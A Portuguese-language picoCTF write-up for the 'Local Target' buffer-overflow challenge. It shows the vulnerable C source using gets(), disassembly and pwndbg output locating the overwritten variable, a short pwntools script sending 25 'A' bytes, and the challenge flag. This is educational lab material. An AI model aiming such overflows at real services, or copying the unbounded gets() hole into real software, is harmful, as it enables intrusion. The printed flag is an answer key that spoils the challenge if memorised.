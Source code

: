 # WriteUp: Local Target
## Descrição do Desafio:
Author: OverTheWire.org / LT 'syreal' Jones \
Plataforma: [PicoCTF](https://play.picoctf.org/practice/challenge/399?category=6&page=1) \
Categoria: Binary Exploitation \
Dificuldade: Média \
Descrição: 
> Smash the Stack \
> Can you overflow the buffer and modify the other local variable?

## Passo a passo da solução
### 1. Análise do arquivo fonte fornecido
Este desafio já fornece o arquivo fonte, `.c`, tornando as coisas relativamente mais fáceis.

```c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}

```

Observando o código, podemos ver que ele abre a `flag` e imprime ela caso a variável `num` seja igual a 65. Podemos também notar que a variável tem seu valor atribuído logo na declaração, e não tem o valor alterado em mais nenhum local, porém outra coisa chama a atenção, logo após a declaração da variável `num` inicia um sequência de código responsável por pedir ao usuário para escrever alguma coisa na variável `input`, que tem tamanho máximo de 15 caracteres.

E é aqui que esta a vulnerabilidade, a entrada do usuário está sendo capturada pela função `gets`, que não contém nenhum limitador, logo o usuário pode escrever quantos caracteres ele quiser.

### 2. Exploit
Descobrimos que podemos facilmente estourar o buffer, agora temos que descobrir onde está a variável `num` para reescrevermos o valor dela. Essa parte podemos fazer de duas formas, a primeira é imprimir a pilha e procurar nela o valor 64 (há alguns, mas com poucas tentativas você encontraria o correto), e a segunda é olhando para o assembly, isso nos mostra o local exato da variável.

```bash 
Dump of assembler code for function main:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdb4]        # 0x402004
   0x0000000000401250 <+26>:    mov    eax,0x0
   0x0000000000401255 <+31>:    call   0x4010f0 <printf@plt>
   0x000000000040125a <+36>:    mov    rax,QWORD PTR [rip+0x2e0f]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x0000000000401261 <+43>:    mov    rdi,rax
   0x0000000000401264 <+46>:    call   0x401120 <fflush@plt>
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
=> 0x000000000040127a <+68>:    mov    edi,0xa
   0x000000000040127f <+73>:    call   0x4010c0 <putchar@plt>
   0x0000000000401284 <+78>:    mov    eax,DWORD PTR [rbp-0x8]
   0x0000000000401287 <+81>:    mov    esi,eax
   0x0000000000401289 <+83>:    lea    rdi,[rip+0xd85]        # 0x402015
   0x0000000000401290 <+90>:    mov    eax,0x0
   0x0000000000401295 <+95>:    call   0x4010f0 <printf@plt>
```

A sequência acima é o início da função `main`, mas o que nós queremos são as instruções próximas da `printf` que imprime o valor do `num` (no caso é o último `printf`). Como o `printf` está imprimindo o valor de `num` por meio das *strings* de formato, ele deve receber o valor dela como parâmetro, e analisando as instruções antes da chamada da função, vemos duas que se destacam: `mov    eax,DWORD PTR [rbp-0x8]` e `lea    rdi,[rip+0xd85]        # 0x402015`. 

A primeira é o `num` e a segunda é a *string* inteira. Note que a instrução pega o valor do `num` subtraindo 8 do `rbp`, então nós podemos fazer a mesma coisa e descobrir a posição.

```bash
pwndbg> print $rbp - 8
$2 = (void *) 0x7fffffffdc68
```

E pronto, agora é só pegar o endereço de início da *string* e subtrair pelo valor encontrado. Como resultado descobriremos que devemos escrever 24 caracteres para chegar no `num` sendo o 25 o que vai reescrever.

### 3. Solução
A verificação no código pede para o valor de `num` ser 65 em decimal, esse número representa o caractere "A" na tabela ascii, então podemos resolver diretamente pelo terminal, ou usando um *script* simples em python.

```py
from pwn import *

p = remote(ip, porta)

payload = flat(
    b"A" * 25
)

p.sendlineafter(b": ", payload)
print(p.recvall().decode())
```

### Flag
`picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}`

## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
